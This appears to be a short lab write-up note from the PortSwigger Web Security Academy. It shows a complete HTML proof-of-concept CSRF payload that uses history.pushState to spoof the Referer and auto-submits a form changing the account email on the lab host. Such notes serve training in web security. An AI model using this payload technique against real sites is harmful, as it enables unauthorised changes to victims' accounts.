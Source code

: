 Note:
	`/?` - this represents a domain query parameter 
	![[Pasted image 20240925185342.png]]

- Payload(using the query parameter we append the valid part of the refferer to our url in order to match the original one by the backend):
```
<html>
    <body>
    
        <script>
	        history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')
        </script>
        
        <h1>Hello World!</h1>
        
        <form action="https://0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>
	        document.getElementById("csrf-form").submit()
	    </script>
	    
    </body>
</html>
```
